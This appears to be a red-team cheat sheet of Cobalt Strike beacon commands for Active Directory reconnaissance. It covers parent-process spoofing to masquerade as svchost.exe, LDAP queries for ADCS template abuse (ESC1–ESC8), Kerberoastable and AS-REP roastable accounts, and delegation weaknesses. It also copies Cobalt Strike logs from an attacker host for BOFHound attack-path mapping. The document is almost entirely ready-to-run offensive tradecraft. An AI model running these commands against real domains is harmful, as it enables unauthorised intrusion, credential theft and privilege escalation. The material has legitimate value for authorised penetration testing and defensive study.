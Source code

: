 
Set PPID to svchost - med-integ
```powershell
ppid 6424 
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
--dn DC=contoso,DC=enclave
```

Domain, users, groups, OUs, and GPOs.
```powershell
ldapsearch (|(objectClass=domain)(objectClass=organizationalUnit)(objectClass=groupPolicyContainer)) *,ntsecuritydescriptor

ldapsearch (|(samAccountType=805306368)(samAccountType=805306369)(samAccountType=268435456)) --attributes *,ntsecuritydescriptor
```

Trusts
```powershell
ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName
```

ADCS + ESC1–ESC8
```powershell
ldapsearch (|(objectClass=pKIEnrollmentService)(objectClass=pKICertificateTemplate)(objectClass=msPKI-Enterprise-Oid)) *,ntsecuritydescriptor

ldapsearch (objectClass=pKICertificateTemplate) --attributes cn,msPKI-Enrollment-Flag,msPKI-Template-Schema-Version,msPKI-Certificate-Name-Flag,msPKI-RA-Signature,msPKI-Application-Policies,msPKI-Subject-Name-Flag,ntSecurityDescriptor
```

Kerberoastable Users
```
ldapsearch "(&(objectClass=user)(servicePrincipalName=*)(!(userAccountControl:1.2.840.113556.1.4.803:=1048576)))" --attributes samAccountName,servicePrincipalName,objectsid,ntsecuritydescriptor
```

AS-REP Roastable Users
```
ldapsearch "(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=4194304))" --attributes samAccountName,userAccountControl,objectsid,ntsecuritydescriptor
```

Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

```powershell
ldapsearch "(&(objectClass=computer)(msDS-AllowedToActOnBehalfOfOtherIdentity=*))" --attributes samAccountName,dnshostname,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

ldapsearch "(msDS-AllowedToActOnBehalfOfOtherIdentity=*)" --attributes samAccountName,servicePrincipalName,msDS-AllowedToActOnBehalfOfOtherIdentity,objectsid,ntsecuritydescriptor

```
---

Bofhound
```powershell
scp -r attacker@10.0.0.5:/opt/cobaltstrike/logs .

bofhound -i logs/
```

Search single SID
```powershell
ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601)

ldapsearch (objectSid=S-1-5-21-1076548718-1118529210-2193484809-2601) --dn DC=contoso,DC=enclave
```
